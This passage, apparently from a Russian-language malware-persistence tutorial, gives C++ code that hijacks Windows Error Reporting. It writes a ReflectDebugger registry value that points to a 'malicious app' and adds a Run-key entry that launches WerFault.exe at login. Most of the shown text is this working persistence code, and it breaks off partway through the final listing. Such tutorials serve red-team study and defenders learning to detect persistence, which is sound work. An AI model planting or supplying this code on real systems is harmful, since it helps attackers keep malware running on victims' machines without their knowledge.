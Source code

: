 А затем создаем скрипт, который создаст ключ реестра со значением, указывающим на наше "вредоносное" приложение:    


```cpp
int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , 
  KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"ReflectDebugger", 0, REG_SZ, (unsigned char*)
    exe, strlen(exe));
    RegCloseKey(hkey);
  }
}
```

Также я использовал [один из классических приемов](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html) для сохранения:

```cpp
// startup
res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)
"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
if (res == ERROR_SUCCESS) {
  // create new registry key
  RegSetValueEx(hkey, (LPCSTR)"meow", 0, REG_SZ, (unsigned char*)wf, 
  strlen(wf));
  RegCloseKey(hkey);
}
```

В результате окончательный исходный код выглядит примерно так (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistense via WerFault.exe
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/11/02/malware-pers-18.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // malicious app
  const char* exe = "Z:\\2022-11-02-malware-pers-18\\hack.exe";

  // hijacked app
  const char* wf = "WerFault.exe -pr 1";

  // set evil app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows\\Windows Error Reporting\\Hangs", 0 , 
  KEY_WRITE, &hkey);
```